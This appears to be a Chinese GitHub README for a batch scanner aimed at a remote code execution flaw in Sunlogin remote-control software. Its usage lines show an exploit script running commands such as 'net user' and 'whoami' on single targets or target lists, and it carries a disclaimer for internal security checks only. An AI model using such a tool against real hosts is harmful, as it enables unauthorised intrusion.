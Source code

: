 # 向日葵RCE漏洞批量检测工具

## 使用需知
仅供企业内部安全隐患排查使用

**由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。**

## 功能
v1.1 批量漏洞检测

v1.0 单IP检测


## 使用方法
```shell
Usage: python exp.py -i [--host] -p [--port] -c [--command] -f [--file]
python exp.py -i 127.0.0.1 -p 20038 -c "net user" 
python exp.py  -f targets.txt -c "whoami"
```

## 运行图
![image-20220222161716318](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220222161716318.png)

![image-20220222161815564](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220222161815564.png)

